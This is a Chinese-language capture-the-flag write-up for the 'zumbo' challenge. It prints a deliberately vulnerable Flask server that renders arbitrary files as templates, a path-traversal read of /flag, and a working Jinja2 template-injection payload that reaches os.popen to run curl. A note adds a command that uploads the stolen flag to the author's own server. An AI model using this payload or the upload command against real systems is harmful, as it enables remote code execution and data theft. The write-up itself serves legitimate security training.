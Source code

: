 ##zumbo.md
key: python站信息搜集，模板注入
进入页面查看源码
<!-- page: index.template, src: /code/server.py -->
最下面一行注释引起了注意。访问
/server.py 得到源码

import flask, sys, os
import requests

app = flask.Flask(__name__)
counter = 12345672


@app.route('/<path:page>')
def custom_page(page):
    if page == 'favicon.ico': return ''
    global counter
    counter += 1
    try:
        template = open(page).read()
    except Exception as e:
        template = str(e)
    template += "\n<!-- page: %s, src: %s -->\n" % (page, __file__)
    return flask.render_template_string(template, name='test', counter=counter);

@app.route('/')
def home():
    return flask.redirect('/index.template');

if __name__ == '__main__':
    flag1 = 'FLAG: FIRST_FLAG_WASNT_HARD'
    with open('/flag') as f:
            flag2 = f.read()
    flag3 = requests.get('http://vault:8080/flag').text

    print "Ready set go!"
    sys.stdout.flush()
    app.run(host="0.0.0.0")

<!-- page: server.py, src: /code/server.py -->

得到第一个flag、
第二个flag通过注释得到当前目录是/code/
所以访问/../flag得到(注意这里要转码。不然不会当做python 的参数，而是会被浏览器解析掉)
这里存在模板注入。通过注册config变量拿到shell好像不行，用另外一种方法
http://zumbo-8ac445b1.ctf.bsidessf.net/{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__ == 'catch_warnings' %}{{c.__init__.func_globals['linecache'].__dict__['os'].popen('curl http://vault:8080/flag').read() }} {% endif %} {% endfor %}
得到最后的flag（这里的命令还有 curl http://vault:8080/flag | curl -T http://vps，直接上传到vps）

